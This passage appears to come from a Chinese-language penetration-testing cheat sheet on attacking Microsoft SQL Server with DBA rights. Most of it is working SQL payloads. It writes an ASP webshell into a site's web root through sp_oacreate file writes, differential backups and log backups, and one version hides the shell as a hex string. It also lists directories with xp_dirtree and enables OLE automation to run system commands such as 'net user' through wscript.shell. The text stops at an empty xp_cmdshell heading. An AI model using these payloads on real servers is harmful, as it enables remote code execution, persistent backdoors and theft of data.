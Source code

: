 - 拥有DBA权限
- 知道的网站绝对路径

```mysql
declare @o int, @f int, @t int, @ret int
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o, 'createtextfile', @f out, 'C:\xxxx\www\test.asp', 1
exec @ret = sp_oamethod @f, 'writeline', NULL,'<%execute(request("a"))%>'
```
#### 差异备份GetShell
```sql
backup database web to disk = 'c:\www\index.bak'
create table test(cmd image)
insert into test(cmd) values (0x3C25657865637574652872657175657374282261222929253E)
backup database web to disk = 'c:\www\index.asp' with DIFFERENTIAL,FORMAT
```
 #### 日志备份GetShell
```sql
alter database web set RECOVERY FULL
create table cmd (a image)
backup database web to disk = 'c:\\www\a.sql'
backup log web to disk = 'c:\www\index1.sql' with init
insert into cmd(a) values('<%execute(request("go"))%>')
backup log web to disk = 'c:\www\shell.asp'
```
## 攻击利用面
### xp_dirtree
xp_dirtree有三个参数，
要列的目录
是否要列出子目录下的所有文件和文件夹，默认为0，如果不需要设置为1
是否需要列出文件，默认为不列，如果需要列文件设置为1

```sql
xp_dirtree 'c:\', 1, 1      #列出当前目录下所有的文件和文件夹
```
### sp_oacreate
sp_oacreate系统存储过程可以用于对文件删除、复制、移动等操作，还可以配合sp_oamethod系统存储过程调用系统wscript.shell来执行系统命令。sp_oacreate和sp_oamethod两个过程分别用来创建和执行脚本语言。
```sql
#判断sp_oacreate状态
select count(*) from master.dbo.sysobjects where xtype='x' and name='SP_OACREATE'
#开启sp_oacreate  
exec sp_configure 'show advanced options', 1;RECONFIGURE
exec sp_configure 'Ole Automation Procedures',1;RECONFIGURE
```
```sql
#执行命令
declare @o int;
exec sp_oacreate 'wscript.shell',@o out;
exec sp_oamethod @o,'run',null,'cmd /c mkdir c:\temp';
exec sp_oamethod @o,'run',null,'cmd /c "net user" > c:\temp\user.txt';
create table cmd_output (output text);
BULK INSERT cmd_output FROM 'c:\temp\user.txt' WITH (FIELDTERMINATOR='n',ROWTERMINATOR = 'nn')      -- 括号里面两个参数是行和列的分隔符，随便写就行
select * from cmd_output
```
### xp_cmdshell
